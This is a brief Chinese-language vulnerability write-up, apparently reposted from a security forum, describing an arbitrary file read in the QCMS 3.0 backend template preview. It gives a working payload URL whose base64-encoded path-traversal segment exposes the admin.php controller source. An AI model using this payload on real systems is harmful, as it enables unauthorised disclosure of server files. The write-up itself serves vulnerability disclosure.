


# QCMS 3.0 任意文件读取

> 原文：[https://www.zhihuifly.com/t/topic/3100](https://www.zhihuifly.com/t/topic/3100)

# QCMS 3.0 任意文件读取

## 一、漏洞简介

## 二、漏洞影响

QCMS 3.0

## 三、复现过程

用seay扫了一下后发现的漏洞

漏洞在后台模板代码预览处，构造payload例如

```
http://www.0-sec.org/backend/template/tempview/Li4vLi4vLi4vQ29udHJvbGxlci9hZG1pbi5waHA=.html 
```

即可读取Controller文件下admin.php文件源码



跟源码对比下，确实是读到了



## 参考链接

> https://xz.aliyun.com/t/7269